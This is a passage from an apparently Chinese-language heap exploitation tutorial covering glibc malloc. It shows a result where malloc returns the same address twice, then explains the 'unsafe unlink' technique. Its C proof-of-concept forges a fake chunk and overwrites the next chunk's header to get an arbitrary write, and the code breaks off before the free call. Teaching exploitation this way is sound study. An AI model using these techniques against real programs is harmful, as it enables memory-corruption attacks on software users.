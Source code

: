 两次 malloc() 返回相同的地址

* 运行效果

![malloc_return_twice_result](../pictures/heap/malloc_return_twice/malloc_return_twice_result.png)

可以看到最后两次 malloc() 的返回值均为 0xbc1010

### Unsafe UnLink

我们有一个全局指针变量 chunk0_ptr 用来保存 malloc 的地址,局部变量 chunk1_ptr 用来保存另外一个 malloc 之后的地址.我们假设造成溢出的是 chunk0 ，那么我们就可以更改掉与其连续分配的 chunk1 的元数据.通过构造 fake chunk 可以使得 chunk0_ptr 在 unlink 的时候,其值被更改,可以被更改为其自己的地址附近,然后通过操纵该地址,即可以操纵他自己所指向的地址的值,造成任意地址写

```C
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct chunk_structure
{
    size_t prev_size;
    size_t size;
    struct chunk_structure *fd;
    struct chunk_structure *bk;
    char buf[10]; // padding
};

int main()
{
    unsigned long long *chunk1, *chunk2;
    struct chunk_structure *fake_chunk, *chunk2_hdr;
    char data[20];

    // First grab two chunks (non fast)
    chunk1 = malloc(0x80);
    chunk2 = malloc(0x80);
    printf("%p\n", &chunk1);
    printf("%p\n", chunk1);
    printf("%p\n", chunk2);

    // Assuming attacker has control over chunk1's contents
    // Overflow the heap, override chunk2's header

    // First forge a fake chunk starting at chunk1
    // Need to setup fd and bk pointers to pass the unlink security check
    fake_chunk = (struct chunk_structure *)chunk1;
    fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
    fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

    // Next modify the header of chunk2 to pass all security checks
    chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
    chunk2_hdr->prev_size = 0x80; // chunk1's data region size
    chunk2_hdr->size &= ~1;       // Unsetting prev_in_use bit

    // Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
```